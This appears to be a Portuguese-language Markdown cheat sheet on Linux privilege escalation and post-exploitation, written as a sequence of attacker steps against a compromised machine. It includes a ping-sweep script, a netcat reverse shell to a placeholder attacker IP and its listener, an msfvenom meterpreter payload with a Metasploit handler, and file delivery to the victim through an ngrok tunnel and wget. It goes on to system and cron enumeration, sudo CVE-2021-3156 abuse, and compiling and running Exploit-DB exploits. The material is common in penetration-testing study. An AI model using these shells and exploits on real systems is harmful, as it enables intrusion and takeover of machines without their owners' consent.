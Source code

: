 
# Linux Privilege escalation - Obtendo maiores privilégios

A escalada de privilégios ocorre quando um atacante busca obter mais permissões no sistema comprometido, seja explorando vulnerabilidades ou configurações inadequadas. Isso pode ser feito de várias formas, como exploração de serviços mal configurados, credenciais armazenadas e vulnerabilidades de software.

---

### Script para varrer toda a rede usando o teste de ping e filtrar IPs ativos

Para descobrir quais dispositivos estão ativos na rede, pode-se usar um simples script em Bash:

~~~bash
for ip in $(seq 1 254); do
  ping -c 1 192.168.1.$ip | grep "64 bytes" | awk '{print $4}' | tr -d ":" &
done
~~~

- Explicação:
  - O `seq 1 254` percorre todos os endereços da rede local.
 
  - O `ping -c 1` envia apenas um pacote ICMP por IP.
 
  - O `grep "64 bytes"` filtra as respostas dos hosts ativos.
 
  - O `awk '{print $4}' | tr -d ":"` extrai apenas o IP da resposta.

---

### Fazer Conexão com a Máquina Invadida

Depois de obter acesso inicial, pode ser necessário abrir uma conexão reversa para controle remoto contínuo. Algumas formas de fazer isso:

**Usando Netcat (nc)**

- Na máquina atacante (listener):

    ~~~bash
    nc -lvnp 4444
    ~~~

- Na máquina invadida (reverse shell):

    ~~~bash
    nc -e /bin/bash <IP-DO-ATACANTE> 4444
    ~~~

**Usando Metasploit**

- Criar um payload reverso:

    ~~~bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP-DO-ATACANTE> LPORT=4444 -f elf > shell.elf
    ~~~

- Executar um handler no Metasploit:

    ~~~bash
    use exploit/multi/handler
    set payload linux/x64/meterpreter/reverse_tcp
    set LHOST <IP-DO-ATACANTE>
    set LPORT 4444
    exploit
    ~~~

---

### Enviar Arquivos para a Máquina Invadida usando Ngrok

O Ngrok pode ser usado para criar um túnel seguro e transferir arquivos para a máquina invadida sem precisar expor diretamente um serviço.

**Passo a passo para enviar um arquivo:**

1. Na máquina atacante (criando um servidor HTTP usando Python)

    ~~~bash
    python3 -m http.server 8080
    ~~~

2. Criar um túnel no Ngrok:

    ~~~bash
    ngrok http 8080
    ~~~

    - *O Ngrok fornecerá um link público acessível de qualquer lugar.*

3. Na máquina invadida, baixar o arquivo:

    ~~~bash
    wget http://<URL_DO_NGROK>/arquivo
    ~~~

---

### SearchSploit

O SearchSploit é uma ferramenta para pesquisar exploits no banco de dados do Exploit-DB.

- Buscar exploits para um software específico:

    ~~~bash
    searchsploit apache
    ~~~

- Buscar exploits exatos para uma versão específica:

    ~~~bash
    searchsploit -w --cve CVE-2021-3156
    ~~~

- Copiar um exploit encontrado:

    ~~~bash
    cp /usr/share/exploitdb/exploits/linux/local/12345.c .
    ~~~

---

### Informações do Sistema

Após obter acesso ao sistema, é essencial coletar informações básicas sobre a máquina e verificar vulnerabilidades.

- Verificar versão do sistema operacional:

    ~~~bash
    uname -a
    lsb_release -a
    cat /etc/os-release
    ~~~

- Verificar arquitetura:

    ~~~bash
    arch
    ~~~

- Verificar permissões do usuário atual:

    ~~~bash
    whoami && id
    ~~~

---

### Cron Jobs

O cron é um agendador de tarefas que pode ser explorado para escalonamento de privilégios se scripts forem executados como root.

- Listar tarefas cron do usuário:

    ~~~bash
    crontab -l
    ~~~

- Listar tarefas cron do sistema:

    ~~~bash
    cat /etc/crontab
    ls -la /etc/cron.*
    ~~~

- Exploração de cron job mal configurado:

  - Se um script no cron job estiver sendo executado como root, mas puder ser modificado pelo atacante (`chmod 777` ou dono diferente de root), ele pode ser editado para executar comandos maliciosos.

---

### Netstat

A ferramenta `netstat` pode ser usada para identificar conexões de rede ativas e serviços em execução.

- Ver portas abertas e processos associados:

    ~~~bash
    netstat -tulnp
    ~~~

- Verificar conexões ativas:

    ~~~bash
    netstat -an
    ~~~

---

### Versão do Sudo

Verificar a versão do `sudo` pode revelar vulnerabilidades que permitam escalonamento de privilégios.

- Checar versão:

    ~~~bash
    sudo -V
    ~~~

- Exploração da vulnerabilidade CVE-2021-3156 (`Baron Samedit`):
  - Se a versão do `sudo` for vulnerável, pode-se usar um exploit público para ganhar acesso root.

---

### Exploit

Caso haja vulnerabilidades conhecidas no sistema, pode-se utilizar exploits para obter privilégios elevados.

- Baixar e compilar um exploit localmente:

    ~~~bash
    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit
    ~~~

- Executar um exploit direto do Exploit-DB:

    ~~~bash
    searchsploit -m linux/local/12345.c
    gcc 12345.c -o exploit && ./exploit
    ~~~

---